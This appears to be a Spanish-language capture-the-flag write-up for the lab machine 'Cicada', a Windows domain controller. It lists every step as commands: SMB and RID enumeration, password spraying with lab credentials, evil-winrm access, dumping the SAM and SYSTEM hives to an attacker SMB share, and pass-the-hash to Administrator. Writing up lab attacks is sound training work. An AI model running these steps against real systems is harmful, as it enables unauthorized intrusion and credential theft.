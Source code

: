 ![Cicada](https://github.com/user-attachments/assets/eb28d3af-c5cc-4206-9579-0979abc20137)


Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 10.10.11.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250318103259](https://github.com/user-attachments/assets/ff9283af-c20a-43cc-8a8c-cecbde27b344)

Dado este output, podemos empezar a pensar que estamos ante un DC. No obstante, vamos a ver con exactitud qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.11.35 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,57500 -oN target -Pn``

![Pasted image 20250318103431](https://github.com/user-attachments/assets/d502e243-12a3-4a04-8077-1b59a06516f5)

De este output podemos extraer cositas, como que el dominio es cicada.htb y el nombre de la máquina es cicada-dc. 

Vamos a recolectar un poco más de información sobre la máquina.

``netexec smb 10.10.1.35``

![Pasted image 20250318104501](https://github.com/user-attachments/assets/a8e0a070-56a2-4df1-9b1a-367075bf0fb2)

Confirmamos la información que teníamos desde el output de nmap y que es un WS2022.

Podemos añadir esta información a nuestro /etc/hosts.

![Pasted image 20250318104605](https://github.com/user-attachments/assets/6c3b9a90-8c4d-4826-a323-49313230092b)

Probamos a enumerar los recursos disponibles por SMB para el usuario guest:

``netexec smb 10.10.11.35 -u 'guest' -p '' --shares``

![Pasted image 20250318104731](https://github.com/user-attachments/assets/03c031e0-65c8-4ce5-858e-e61d44754e0d)

Aparecen cosas interesantes y que no están por default, como el permiso de lectura para HR (HumanResources?).

Vamos a conectarnos por SMB para echarle un vistazo más a fondo.

``smbclient //10.10.11.35/HR -U 'guest'``

![Pasted image 20250318105030](https://github.com/user-attachments/assets/42cbe277-13f8-4e5f-ae39-6ce81f698f36)

Vemos que existe un archivo llamado "Notice from HR.txt". Nos traemos el archivo a la máquina atacante para analizar su contenido.

![Pasted image 20250318105403](https://github.com/user-attachments/assets/f888e9da-e7ab-4900-81e4-528be9ee49fb)

Podemos visualizar cositas interesantes. Parece un mensaje default para nuevas contrataciones en la compañía Cicada. Lo primero (y más importante) que menciona es la importancia de cambiar la contraseña default 'Cicada$M6Corpb*@Lp#nZp!8'. Sin embargo, no tenemos el usuario al que está haciendo referencia.

Dado que con el usuario guest podemos enumerar los archivos compartidos, vamos a probar a utilizar --rid-brute para enumerar usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute``

![Pasted image 20250318112623](https://github.com/user-attachments/assets/9b31db8e-a51a-48bb-81ce-186618c0f9eb)

Bien. Nos saca output. Lo que vamos a hacer es redirigirlo todo a un archivo para hacer un tratamiento de los datos para quedarnos sólo con los nombres de usuario y generar un diccionario de usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > smbusers.txt``

Una vez tenemos todo el output en un archivo, hacemos el tratamiento de datos.

``cat smbusers.txt | grep 'SidTypeUser'| cut -f2 -d '\' | cut -f1 -d '(' | cut -f1 -d ' ' > users.txt``

![Pasted image 20250318114113](https://github.com/user-attachments/assets/57633c2c-b1e5-448a-9a7e-041e965228e8)

Una vez tenemos el diccionario de usuarios, vamos a identificar si todos son usuarios válidos (que deberían):

``kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt``

![Pasted image 20250318114214](https://github.com/user-attachments/assets/a0f40542-614f-4b37-b74e-3602321686c4)

Genial. Los usuarios que tenemos son usuarios reales.

Ahora vamos a hacer uso de la técnica password spraying con la contraseña que hemos obtenido en el archivo compartido por SMB con los usuarios que tenemos:

``netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success``

![Pasted image 20250318122124](https://github.com/user-attachments/assets/7a771c02-c50c-4a13-9feb-2b89c4e74fc6)

Ojo, tenemos un [+] para el usuario michael.wrightson, por lo que tenemos credenciales válidas.

michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8 

Sin embargo, si lanzamos netexec para winrm vemos que no tenemos un [+], por lo que este usuario no forma parte del grupo Remote Management Users y no podemos conectarnos usando evil-winrm. Seguimos enumerando.

Si nos conectamos por RPC para enumerar un poquito más:

``rpcclient -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35``

-> querydispinfo

![Pasted image 20250318130434](https://github.com/user-attachments/assets/44c9b0cc-02ef-4f6b-9c69-26e5cdded22b)

Muy interesante. La descripción del usuario david.orelious es:

``Just in case I forget my password is aRt$Lp#7t*VQ!3``

Tenemos una posible contraseña del usuario david.orelious. Vamos a validar esta credencial con netexec:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3'``

![Pasted image 20250318130621](https://github.com/user-attachments/assets/d631704f-da47-42b1-b7a0-f5db56ac0c9b)


Son credenciales válidas, pero tampoco forma parte del grupo Remote Management Users (igual que antes, netexec para winrm no reporta pwn3d), por lo que seguimos sin poder conectarnos a la máquina víctima.

Sin embargo, si vemos lo que se está compartiendo en SMB para este usuario:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares``

![Pasted image 20250318130854](https://github.com/user-attachments/assets/edc69a88-6ec4-415d-8118-1da249755608)

El directorio DEV que se está compartiendo suena bastante interesante y tenemos permisos de lectura. Vamos a indagar.

``smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'``

![Pasted image 20250318131033](https://github.com/user-attachments/assets/90a8d5bc-4bdf-463a-bc8b-97a7ab5df06c)

Nos traemos a la máquina víctima ese Backup_script.ps1 y le echamos un vistazo:

![Pasted image 20250318132822](https://github.com/user-attachments/assets/21fc8717-35b1-422c-a831-190a8b499514)


Se encuentran claramente unas credenciales:
emily.oscars : Q!3@Lp#M6b*7t*Vt

Vamos a validarlas con netexec.

![Pasted image 20250318132949](https://github.com/user-attachments/assets/0167e75e-bd81-437a-941f-1d76e0539599)


Son credenciales válidas. Y si las probamos para winRM:

![Pasted image 20250318133030](https://github.com/user-attachments/assets/188d617a-f6fd-43aa-b46a-bc7f7b8c178f)

Bingo, tenemos Pwn3d!
Por fin un usuario que forma parte del grupo Remote Management Users y que nos permite conectarnos.

Nos conectamos con evilwin-rm:

``evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'``

![Pasted image 20250318133343](https://github.com/user-attachments/assets/063bfbb7-faa3-4440-9ce3-a42254495983)

Estamos dentro de la máquina víctima como el usuario emily.oscars.

Dentro de C:\Users\emily.oscars\Desktop encontramos la flag de usuario:

![Pasted image 20250318133546](https://github.com/user-attachments/assets/0883a5d5-96d9-4723-8001-c34a5f4fe676)



# PRIVESC

``whoami /priv``

![Pasted image 20250318133801](https://github.com/user-attachments/assets/c62fbc60-9a56-405d-b014-03d952af42da)

El usuario tiene el privilegio SeBackupPrivilege. Muy buenas noticias.

Nos creamos una carpeta temp en C:\

![Pasted image 20250318133829](https://github.com/user-attachments/assets/3b5fa189-4b81-4618-b2e0-df1103940481)

Para explotar este privilegio vamos a hacer una copia de SAM y SYSTEM que nos permitirá tener los hashes LM:NTLM de los demás usuarios.

``reg save hklm\sam c:\temp\sam``

``reg save hklm\system c:\temp\system``

![Pasted image 20250318133929](https://github.com/user-attachments/assets/cd2368d8-55e8-46bc-a160-20bcaf09e5c6)


Vamos a compartir ambos recursos con la máquina atacante, para ello:

- Abrimos smbserver en máquina atacante:
  
``impacket-smbserver -smb2support test .``

- Desde máquina víctima realizamos la copia de ambos recursos (sam y system) en el servidor SMB de la máquina atacante:
  
``copy sam \\10.10.14.16\test\sam``

``copy system \\10.10.14.16\test\system``

![Pasted image 20250318134115](https://github.com/user-attachments/assets/1adf0f5e-6114-40ec-ba06-a347e0f88740)


Una vez lo tenemos en máquina víctima, combinamos ambos archivos a través del uso de impacket-secretsdump:

``impacket-secretsdump -sam sam -system system LOCAL > sam.hashes``

Si observamos el contenido del archivo:

![Pasted image 20250318134748](https://github.com/user-attachments/assets/b1e0d5f8-0daf-4e02-8d82-5e28ddb67e6c)


Estupendo. Tenemos un posible hash NTLM del usuario Administrator. Vamos a validarlo vía netexec realizando pass the hash:

``netexec smb 10.10.11.35 -u Administrator -H ':2b87e7c93a3e8a0ea4a581937016f341'``

![Pasted image 20250318134823](https://github.com/user-attachments/assets/b7a48503-aae7-45eb-9106-08a53c40bbed)

Tenemos [+] y Pwn3d!, por lo que, no sólo son credenciales válidas, sino que podemos hacer uso directo de psexec para conectarnos a la máquina víctima:

``impacket-psexec administrator@10.10.11.35 -hashes ':2b87e7c93a3e8a0ea4a581937016f341'``

![Pasted image 20250318135407](https://github.com/user-attachments/assets/919b50ed-4635-45f5-89d3-493b9349da14)

Podemos recogemr la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250318135514](https://github.com/user-attachments/assets/ea0cfadd-332e-46f8-80ec-ee918deaece3)
